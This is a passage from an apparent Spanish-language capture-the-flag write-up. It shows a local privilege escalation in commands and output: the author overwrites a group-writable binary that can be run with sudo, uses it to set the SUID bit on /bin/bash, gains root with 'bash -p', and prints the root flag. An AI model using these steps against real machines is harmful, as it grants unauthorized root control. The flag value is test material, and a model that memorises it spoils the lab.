 Vemos que hemos obtenido las credenciales de la conexion a `mysql`.

Pero no podremos hacer gran cosa, ahora si vemos los permisos que tiene el `binario` veremos lo siguiente:

```shell
ls -la /usr/bin/chash
```

Info:

```
-rwxrwxr-x 1 root trr0r 31081158 Mar 26 18:51 /usr/bin/chash
```

Vemos que pertenecemos al grupo del `binario`, por lo que podremos hacer lo siguiente:

```shell
echo " " > /usr/bin/chash
```

```shell
nano /usr/bin/chash

#Dentro del nano
#!/bin/bash

chmod u+s /bin/bash
echo "Permisos cambiados con exito!"
```

Lo guardamos y ahora ejecutamos lo siguiente:

```shell
sudo /usr/bin/chash
```

Info:

```
Permisos cambiados con exito!
```

Ahora si listamos la `bash` veremos lo siguiente:

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

Para poder ser `root` ejecutaremos esto:

```shell
bash -p
```

Info:

```
bash-5.2# whoami
root
```

Con esto veremos que seremos `root` por lo que leeremos la flag de `root`.

> root.txt

```
eb4585ad9fe0426781ed7c49252f8225
```
